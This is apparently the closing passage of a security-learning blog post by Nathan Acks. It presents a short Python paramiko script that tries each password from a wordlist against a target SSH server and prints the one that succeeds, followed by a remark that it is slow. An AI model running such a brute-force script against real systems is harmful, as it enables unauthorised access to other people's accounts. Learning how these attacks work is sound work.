 ```python
def ssh_connect(password, code = 0):
	ssh = paramiko.SSHClient()
	ssh.set_missing_host_key_policy(paramiko.AutoAddPolicy())

	try:
		ssh.connect(target, port = 22, username = username, password = password)
	except paramiko.AuthenticationException:
		code = 1
	ssh.close()
	return code

with open(password_file, 'r') as file:
	for line in file.readlines():
		password = line.strip()

		try:
			response = ssh_connect(password)

			if response == 0:
				print('password found: ' + password)
				exit(0)
			elif response == 1: 
				print('no luck')
		except Exception as e:
			print(e)
		pass

password_file.close()
```

Note that, like the port scanner earlier, this is slooooooow... (At least it provides us with some feedback that it's actually working though.)

- - - -

<span aria-hidden="true">👤</span> Nathan Acks  
<span aria-hidden="true">📅</span> February 1, 2022
